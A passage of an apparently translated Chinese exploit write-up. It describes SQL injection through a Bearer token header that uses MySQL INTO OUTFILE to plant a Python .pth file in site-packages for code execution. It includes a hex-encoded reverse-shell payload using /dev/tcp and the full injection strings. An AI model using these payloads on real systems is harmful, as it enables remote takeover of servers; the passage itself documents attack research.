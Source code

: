
```
UNHEX('696d706f7274206f733b206f732e73797374656d282762617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f312f3220303e2631222729')
```

  
  
不幸的是，这超出了最大输入限制。  
  
沮丧之余，我们突然想到一个主意：与其一次性发射有效载荷，不如把它分解成多个部分？这样可行吗？  
  
当然，MySQL 有一个众所周知的限制INTO OUTFILE——它只允许写入新文件。不支持追加，也不支持覆盖。每个文件路径只能写入一次。  
  
但随后出现了转折：当然，我们仅限于INTO OUTFILE每个目标文件调用一次 - 但我们事先构建内容的方式不受限制。  
  
那么，如果我们将有效载荷逐块存储到另一列中...然后要求 MySQL 将该列的值转储到文件中，会怎么样？  
  
浏览的架构fabric_user.user_table，有一列立即脱颖而出：token完美。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taf6ZzmMcWcgwxI7KRJK8eXrI9V5hgNThbnq4EFLW8l2mPic3vaiacoYfrxR5uHpialVtl47SQxvyZmIw/640?wx_fmt=png&from=appmsg "")  
  
类似这样的事会起作用吗？  
  

```
Bearer '/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'/var/log/lib/python3.10/site-packages/b.pth
```

  
  
但是再说一遍——上面的查询？137 个字节长。  
  
看起来我们完蛋了，对吧？  
  
当时我们有点沮丧。不过，我们也不是没有主意了。  
  
如果我们使用通配符会怎么样？我们不提供完整路径，而是尝试了如下方法：  
  

```
/var/log/lib/python3.10/site-*/
```

  
  
不幸的是，MySQL 又报了个错误 —— 它不支持通配符INTO OUTFILE。真可惜。  
  
好的，新想法：如果我们使用相对路径而不是绝对路径会怎样？  
  
好消息——成功了。  
  
通过在查询中使用相对路径INTO OUTFILE，MySQL 会根据进程的工作目录来解析它——这与 Python 的 非常接近site-packages。我们使用了：  
  

```
../../lib/python3.10/site-packages/x.pth
```

  
  
最终的有效载荷是什么？  
  

```
'/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'../../lib/python3.10/site-packages/x.pth'
```
